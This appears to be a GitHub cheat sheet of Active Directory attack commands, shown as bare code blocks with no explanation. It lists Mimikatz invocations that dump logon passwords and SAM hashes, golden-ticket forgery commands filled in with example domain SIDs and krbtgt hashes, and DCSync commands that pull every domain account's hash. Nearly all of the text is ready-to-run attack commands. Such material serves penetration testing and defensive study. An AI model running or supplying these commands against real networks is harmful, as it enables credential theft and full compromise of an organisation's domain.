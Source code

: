 ###
```
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
mimikatz token::elevate lsadump::sam
mimikatz "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
mimikatz "lsadump::sam"
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```
### Golden Tickets
```
 mimikatz kerberos::golden /user:Administrator /domain:cyberbotic.io /sid:S-1-5-21-3865823697-1816233505-1834004910 /krbtgt:ac548f25225b5e0974a79a59fc27fc2c /target:cyberbotic.io /ptt
```
|Invoke-Mimikatz -Command '"kerberos::golden /user:evil /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:MeMe /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|kerbeos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:ninja.corp /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt|
```




### dcsync
```
mimikatz lsadump::dcsync /domain:insomnia.io /all /csv
mimikatz lsadump::dcsync /domain:insomnia.io /user:John
Invoke-DCSync
Invoke-DCSync -PWDumpFormat
```
